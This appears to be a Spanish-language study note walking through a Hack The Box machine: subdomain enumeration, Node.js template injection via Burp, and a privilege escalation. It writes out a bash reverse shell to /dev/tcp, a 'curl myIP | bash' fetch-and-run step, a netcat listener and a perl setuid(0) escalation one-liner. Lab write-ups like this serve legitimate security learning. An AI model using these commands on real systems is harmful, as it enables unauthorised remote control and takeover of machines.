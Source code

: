 Cuándo estamos ante una máquina nueva, tenemos que empezar con la fase de reconocimiento, que haremos con [[Nmap]].

### RECONOCIMIENTO

Si nuestra máquina tiene el puerto 80 abierto ([[http]]), usaremos el comando:

>[[whatweb]] IP

Pero nos sale un error, eso es porque esa IP no está apuntando hacia la página a la que debería apuntar.

Para solucionar esto, debemos debemos modificar el [[/etc/hosts]], y ponemos la [[ip]] victima apuntando hacia el [[dominio]] al que queremos que apunte.

Nos encontramos ante una página estática, en la que no podemos usar el campo para registrarse.

### SUBDOMINIOS

**Pero, ¿y si hay [[subdominios]]?**

Vamos a usar un diccionario de github para ver si encontramos algo:

1. Buscamos el diccionario de "seclists".

2. Dentro del path "discovery > DNS", encontramos los posibles subdominios más comunes dentro de las páginas webs.

3. Una vez elegido el fichero (podemos elegir el más grande, aunque implique más tiempo), hacemos un [[wget]] del enlace, y ya lo tenemos descargado.

4. Una vez que tenemos el fichero descargado, vamos a usar [[gobuster]]:

> `gobuster vhost -w diccionary -u URL -k`

EL `-K` ES SOLO PARA CUÁNDO ES [[HTTPS]]

- `vhost`: quiero ver si se aplican de otro hosting.
- `-k`: página segura (HTTPS). 

5. Una vez terminado el escáneo, tendremos los subdominios... LOS SUBDOMINIOS DEBEN INTRODUCIRSE DELANTE DEL DOMINIO, por ejemplo:

> https://store.nunchucks.htb

No nos funcionará, porque hay que añadirlo también al [[/etc/hosts]] (se pone al lado del dominio original):

`ip domain subdomain`

6. Dentro de este subdominio, encontramos un recuadro en el que poder introducir nuestro correo.

Siempre que veamos un recuadro, debemos hacer diferentes pruebas.

Si al introducir algo, esa página nos devuelve algo de texto, lo más seguro es que estemos ante una vulnerabilidad llamada: [[server side template inyection]] o [[ssti]].

Esta vulnerabilidad se puede encontrar poniendo, por ejemplo:

> `{{2*2}}`


7. Una vez que sabemos que estamos ante esta vulnerabilidad, debemos de saber qué tecnologías corren detrás de esta página web usando `whatweb`.

Podemos usar la extensión "[[Wappalyzer]]" para saber más información que con whatweb.

Algo importante es saber en qué lenguaje corre la página web, en este caso: "[[Node.js]]". Ahora que sabemos el lenguaje, y que podemos hacer un [[ssti]], vamos a investigar en Google qué se puede hacer ahora:

> node.js ssti

Y la cosa es encontrar un payload que nos pueda servir para explotar esta vulnerabilidad.

Investigando, veremos que hay una línea de código que si la introduccimos, nos dará un error y nos pedirá que introduzcamos un correo válido.

Cuándo pasa esto, podemos usar burpsuite para ver qué está pasando.

### BURPSUITE
8. Abrimos [[burpsuite]] y ponemos un correo válido, que se pueda enviar. Una vez que estemos investigando el trámite, veremos abajo del todo un campo que está curioso, es el de "email".

Antes no podíamos introducir el exploit en la parte del correo, pero... **¿Qué pasaría si cambiasemos ahora el correo?** 

Si modificamos el correo que habíamos introducido, cambiandolo al código malicioso.

[[REPEATER]]

Si con el código nuevo, le damos a `Control + R`, enviaremos la petición al Repeater, dónde yo puedo hacer pruebas, para ver qué me responde el error.

Enviamos la petición, a ver qué nos devuelve el servidor, y nos devuelve un error, porque tenemos "escapar el texto": 

- Ponemos una barrita a la inversa dónde comienza el texto no reconocido cómo código malicioso (osea, que sale en negrita en vez de verde), y para convertirlo en más código ponemos `\`.

### SHELL RIVERSA

9. Ahora, vemos que si por ejemplo cambiamos la parte de: `tail /etc/hosts` por, por ejemplo, `ls -l`, veremos que tenemos control remoto sobre esta máquina.

**¿Qué hacemos cuándo sabemos que tenemos control remoto sobre una máquina?**

Conseguir la [[Shell Riversa]].

Aquí tenemos muchas opciones: un payload con MSFVENOM, utilizar pyhon para mandarme un fichero [[python]] y a través de un módulo Schokets para enviarme la Shell Riversa...

10. Vamos a hacerlo por la vía fácil, vamos a crear un archivo [[html]] que tenga un código que se encargue de enviarnos una shell riversa con el que nos lo descargue con un servidor python, que se código sea interpretado por [[bash]] y que nos envíe la shell riversa por [[netcat]].

	1. Creamos un fichero que se llama [[index-html]].

	2. Ponemos lo siguiente:

		- #!/bin/bash
		- [[bash -i >& /dev/tcp/myIP/port 0>&1]]
		- **la IP coger la de tun0 (HTB), pero nuestra IP es la de eth0**


		Creamos un servidor python por el puerto 80 corriendo, entonces, en la zona de repeater ponemos el siguiente código para ver cómo responde la página cuándo se descargue el siguiente enlace:

		- [curl myIP | bash]

			- [[Curl]]: obtener. en este caso, el documento html, el contenido del servidor web.
			- [[Bash]]: lo que acabas de descargar, interpretámelo con bash y ejecútame lo que está dentro de ese código.

		Abrimos un puerto de escucha con [[netcat]]: 

		- [[sudo nc -nlvp port]]
			- El puerto debe ser el especificado en el archivo .html.


### ESCALADA DE PRIVILEGIOS

> [[getcap -r / 2>/dev/null]]
> 
> Esto sirve para ver qué cosas puedo hacer con mi actual usuario.

Podemos usar código [[perl]] con los que poder aumentar de privilegios.

Podemos crearnos un script que podemos ejecutar siendo el usuario David:

> perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'







